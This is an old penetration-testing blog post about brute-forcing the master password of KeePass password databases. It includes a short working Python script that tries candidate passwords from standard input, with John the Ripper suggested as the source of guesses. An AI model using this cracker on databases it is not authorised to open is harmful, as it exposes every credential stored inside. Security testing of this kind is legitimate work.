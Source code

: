 ```yaml
---
layout: post
title: Brute-forcing  Keepass  password key-chains
date: '2011-08-03T11:09:00.000+02:00'
author: Xavier Garcia
tags:
- pentest
- brute-force
- keepass
modified_time: '2011-08-03T11:09:30.760+02:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-996903371796116669
blogger_orig_url: http://www.shellguardians.com/2011/08/brute-forcing-keepass-password-key.html
---
```

From the website:

> KeePass is a free open source password manager, which helps you to manage your passwords in a secure way. You can put all your passwords in one database, which is locked with one master key or a key file. So you only have to remember one single master password or select the key file to unlock the whole database. The databases are encrypted using the best and most secure encryption algorithms currently known (AES and Twofish).

This open source password manager is available on Window, Mac, Linux, Android and iPhone. Hence, chances are that we will find one of these keychain files during a pen-test.

Looking for ways to brute-force the password I stumbled across with this [python implementation](https://github.com/brettviren/python-keepass) that is able to read the file and dump its contents. It should not be very inefficient since it is using [pycrypto](https://www.dlitz.net/software/pycrypto/doc/), that is implemented in C.

The code is fairly simple and expects the list of passwords  in the standard input.  One possibility is to use John the Ripper for this task :)

You can find the code below.

```python
#! /usr/env/python  
  
#https://github.com/brettviren/python-keepass  
  
# reads a list of pass words from the standard input  
# john the ripper may be used to feed the application  
  
from keepass import kpdb  
import sys  
import fileinput  
  
for line in sys.stdin:  
    passwd=line.strip("\n")  

    try:  
        db = kpdb.Database(sys.argv[1],passwd)  
        print "Valid password found for %s : %s" % (sys.argv[1],passwd)  
        sys.exit(0)  
    except ValueError:  
        pass
```
